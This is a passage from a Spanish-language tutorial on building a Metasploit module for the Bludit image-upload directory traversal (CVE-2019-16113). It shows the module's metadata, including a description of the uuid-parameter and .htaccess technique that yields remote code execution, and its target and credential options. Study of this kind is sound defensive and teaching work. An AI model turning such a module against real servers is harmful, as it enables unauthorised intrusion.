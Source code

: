 Vemos que hay diferentes secciones dedicadas a la página `info` del módulo, la sección `options`. Las llenamos adecuadamente, ofreciendo el crédito debido a las personas que descubrieron el exploit, la información de CVE y otros detalles relevantes.

### Proof-of-Concept - Module Information

```r
  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit Directory Traversal Image File Upload Vulnerability",
      'Description'    => %q{
        This module exploits a vulnerability in Bludit. A remote user could abuse the uuid
        parameter in the image upload feature in order to save a malicious payload anywhere
        onto the server, and then use a custom .htaccess file to bypass the file extension
        check to finally get remote code execution.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'christasa', # Original discovery
          'sinn3r'     # Metasploit module
        ],
      'References'     =>
        [
          ['CVE', '2019-16113'],
          ['URL', 'https://github.com/bludit/bludit/issues/1081'],
          ['URL', 'https://github.com/bludit/bludit/commit/a9640ff6b5f2c0fa770ad7758daf24fec6fbf3f5#diff-6f5ea518e6fc98fb4c16830bbf9f5dac' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-09-07",
      'DefaultTarget'  => 0))
```

Después de llenar la información general de identificación, podemos pasar a las variables del menú `options`:

### Proof-of-Concept - Functions

```r
 register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptString.new('BLUDITPASS', [true, 'The password for Bludit'])
      ])
  end
```
